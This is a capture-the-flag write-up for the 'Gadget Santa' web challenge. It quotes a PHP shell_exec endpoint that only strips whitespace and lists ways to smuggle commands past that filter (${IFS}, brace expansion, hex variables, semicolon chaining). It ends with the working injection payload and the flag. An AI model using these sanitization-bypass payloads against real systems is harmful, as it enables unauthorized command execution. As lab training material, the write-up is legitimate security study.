

# Cyber Santa 2021 – Gadget Santa

- **Category:** Web Day 3
- **Points:** 300
- **Difficulty:** ★☆☆☆

## Challenge

We are given a website, along with its source code as usual. It seems to be a shell container where commands can be injected through the URL parameter of `command`.



However any commands with spaces seem to fail immediately. Inspection of the source code in the `MonitorModel.php` file reveals that commands with spaces will be sanitized through a regex expression.

```
<?php
class MonitorModel
{
    public function __construct($command)
    {
        $this->command = $this->sanitize($command);
    }

    public function sanitize($command)
    {
        $command = preg_replace('/\s+/', '', $command);
        return $command;
    }

    public function getOutput()
    {
        print($this->command)
        print('over here')
        return shell_exec('/santa_mon.sh '.$this->command);
    }
}
```

The flag was also found in the `ups_manger.py` file

```
def http_server(host_port,content_type="application/json"):
	class CustomHandler(SimpleHTTPRequestHandler):
		def do_GET(self) -> None:
			def resp_ok():
				self.send_response(200)
				self.send_header("Content-type", content_type)
				self.end_headers()
			if self.path == '/':
				resp_ok()
				if check_service():
					self.wfile.write(get_json({'status': 'running'}))
				else:
					self.wfile.write(get_json({'status': 'not running'}))
				return
			elif self.path == '/restart':
				restart_service()
				resp_ok()
				self.wfile.write(get_json({'status': 'service restarted successfully'}))
				return
			elif self.path == '/get_flag':
				resp_ok()
				self.wfile.write(get_json({'status': 'HTB{f4k3_fl4g_f0r_t3st1ng}'}))
				return
			self.send_error(404, '404 not found')
		def log_message(self, format, *args):
			pass
	class _TCPServer(TCPServer):
		allow_reuse_address = True
	httpd = _TCPServer(host_port, CustomHandler)
	httpd.serve_forever()
```

In order to get the flag, we need to somehow query the `/get_flag` path with a command that has no spaces.

## Solution

As usual with every challenge, I turned to Google immediately, and discovered this [site](https://www.betterhacker.com/2016/10/command-injection-without-spaces.html) and this [Stack Overflow Post](https://unix.stackexchange.com/questions/351331/how-to-send-a-command-with-arguments-without-spaces) that had a collection of different ways to send commands without spaces.

The options I found online were

1. Using curly braces and commas: `{echo,hello,world}`
2. Defining bash variables using bytes and echoing it: `CMD=$'\x20a\x20b\x20c';echo$CMD`
3. Using the \${IFS} separator, default value of IFS is space, tab, newline: `cat${IFS}file.txt`
   - For single space: ${IFS%??} can be used
4. Chaining commands together with semicolons : `ls;id;whoami;`

Quite a few of these didn't work by themselves but by chaining a few of them together in this payload

```
id${IFS};curl${IFS}localhost:3000/get_flag;
```

netted me the flag

```
{"status": "HTB{54nt4_i5_th3_r34l_r3d_t34m3r}"}
```

## Thoughts

- This challenge was useful for me to collate together a bunch of payloads that can bypass simple sanitization of shell commands in the future
